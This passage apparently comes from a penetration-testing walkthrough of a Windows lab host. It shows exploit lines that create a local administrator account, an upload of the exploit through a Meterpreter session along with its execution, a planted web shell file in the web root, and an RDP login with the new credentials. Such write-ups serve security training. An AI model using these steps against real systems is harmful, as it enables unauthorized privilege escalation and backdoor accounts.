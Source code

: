 ```
a.WriteLine (""net user /add test123 test123"")
a.WriteLine (""net localgroup administrators /add test123"")
```

Let's upload the exploit using our meterpreter session and then execute it on the target.

```
meterpreter > ls
Listing: C:\wamp\www
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  161   fil   2011-11-08 15:58:11 +0000  .htaccess
100666/rw-rw-rw-  45    fil   2011-11-08 15:53:09 +0000  .htpasswd
100666/rw-rw-rw-  76    fil   2011-11-08 15:45:29 +0000  index.php
100666/rw-rw-rw-  1113  fil   2020-12-27 18:08:12 +0000  pwn.php

meterpreter > upload 15589.wsf /Users/apache/Desktop/
[*] uploading  : 15589.wsf -> /Users/apache/Desktop/
[*] uploaded   : 15589.wsf -> /Users/apache/Desktop/\15589.wsf
meterpreter > execute -f cscript -a C:/Users/apache/Desktop/15589.wsf
Process 2868 created.
meterpreter >
```

After the exploit has completed, we can connect to remote desktop with `test123:test123`.

```
kali@kali:~$ rdesktop 192.168.68.46 -u test123 -p test123
Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses and invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.

     Issuer: CN=LIVDA

 2. Certificate has expired.

     Valid to: Tue Sep 22 12:57:25 2020



Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate the connection atempt will be aborted:

    Subject: CN=LIVDA
     Issuer: CN=LIVDA
 Valid From: Mon Mar 23 12:57:25 2020
         To: Tue Sep 22 12:57:25 2020

  Certificate fingerprints:

       sha1: 92f40781ed691eb1f4a5463fa1c7a36661dce8a0
     sha256: 3556cd6b7171d75fa2a737ceca4a69ba77583af6177683dbe099ad3dded93aa5


Do you trust this certificate (yes/no)? yes
Connection established using SSL.
Protocol(warning): process_pdu_logon(), Unhandled login infotype 1
```

If everything worked as expected, we have access to the system as a local administrator.